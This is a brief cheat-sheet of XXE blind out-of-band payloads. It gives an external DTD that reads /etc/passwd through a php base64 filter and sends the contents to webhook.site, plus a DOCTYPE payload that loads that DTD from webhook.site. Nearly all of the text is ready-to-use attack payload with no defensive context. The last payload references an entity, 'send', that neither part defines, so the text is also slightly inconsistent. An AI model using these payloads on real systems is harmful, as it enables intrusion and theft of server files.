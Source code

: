 # XXE blind OOB :

https://www.w3schools.com/xml/xml_dtd_intro.asp

# XXE blind payload [DTD file] :

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://webhook.site/?%file;'>">
%eval;
%exfil;

# XXE blind payload [CALL DTD FILE] :

<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://webhook.site/evil.dtd">
  %dtd;
  ]>
<data>&send;</data>

